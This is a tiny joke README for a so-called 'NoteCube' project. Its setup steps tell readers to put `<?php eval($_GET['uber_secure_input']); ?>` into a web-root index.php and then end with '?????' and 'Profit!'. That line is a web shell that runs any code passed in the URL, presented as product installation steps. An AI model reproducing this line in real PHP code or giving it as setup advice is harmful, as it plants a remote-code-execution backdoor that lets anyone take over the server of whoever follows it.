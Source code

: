 NoteCube
========

Creating your own notecube:

* Create a file called index.php
* Move index.php to the root of your webserver
* Open index.php in your favorite text editor
* Edd the following line `<?php eval($_GET['uber_secure_input']); ?>`
* ?????
* Profit!
